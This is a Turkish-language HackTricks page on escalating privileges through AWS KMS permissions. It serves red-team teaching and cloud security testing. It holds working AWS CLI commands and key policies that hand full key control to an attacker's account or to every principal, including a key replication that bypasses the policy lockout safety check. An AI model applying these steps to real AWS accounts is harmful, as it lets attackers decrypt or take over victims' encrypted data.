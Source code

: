 # AWS - KMS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek.

</details>
{% endhint %}

## KMS

KMS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Bu izinlerle **anahtarın erişim izinlerini değiştirmek** mümkündür, böylece diğer hesaplar veya hatta herkes tarafından kullanılabilir: 

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Bu, **bir yetkilinin KMS anahtarını kullanmasına izin verir:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Bir grant yalnızca belirli türdeki işlemlere izin verebilir: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
KMS'nin **grant oluşturulduktan sonra kullanıcının anahtarı kullanmasına izin vermesi** birkaç dakika sürebilir. Bu süre geçtikten sonra, yetkili KMS anahtarını herhangi bir şey belirtmeden kullanabilir.\
Ancak, grant'i hemen kullanmak gerekiyorsa [bir grant token kullanın](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (aşağıdaki kodu kontrol edin).\
[**Daha fazla bilgi için bunu okuyun**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Not edin ki, anahtarların izinlerini listelemek mümkündür:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Bu izinlerle, çok bölgeli etkin bir KMS anahtarını farklı bir bölgede farklı bir politika ile çoğaltmak mümkündür.

Yani, bir saldırgan bunu anahtara erişimini artırmak ve kullanmak için kötüye kullanabilir.

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Bu izin, bir anahtarı kullanarak bazı bilgileri şifre çözmeye olanak tanır.\
Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
